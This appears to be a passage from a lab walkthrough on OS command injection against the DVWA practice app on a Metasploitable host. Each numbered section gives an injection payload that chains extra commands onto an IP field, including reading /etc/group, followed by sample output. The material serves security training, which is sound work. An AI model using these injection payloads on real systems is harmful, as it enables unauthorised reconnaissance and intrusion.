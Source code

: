 ### 2. Multiple Command Execution

**Using the ampersand operator:**
```bash
127.0.0.1 | pwd & whoami & ps
```

**What this does:**
* `pwd` - Prints current working directory
* `whoami` - Shows current user
* `ps` - Lists running processes

**Expected output:**
```
/var/www/dvwa/vulnerabilities/exec
www-data
PID TTY          TIME CMD
1234 ?        00:00:00 apache2
...
```

### 3. System Information Gathering

**Comprehensive system reconnaissance:**
```bash
127.0.0.1 | uname -a & users & id & w
```

**Command breakdown:**
* `uname -a` - Displays system information (kernel, hostname, architecture)
* `users` - Lists logged-in users
* `id` - Shows user and group IDs
* `w` - Displays who is logged in and what they're doing

**Sample output:**
```
Linux metasploitable 2.6.24-16-server #1 SMP i686 GNU/Linux
msfadmin
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4. Group Information Enumeration

**Display group membership:**
```bash
127.0.0.1 | cat /etc/group
```

**What this reveals:**
* All system groups
* Group members
* Group IDs (GIDs)

**Sample output:**
```
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:msfadmin
sudo:x:27:msfadmin
www-data:x:33:
```
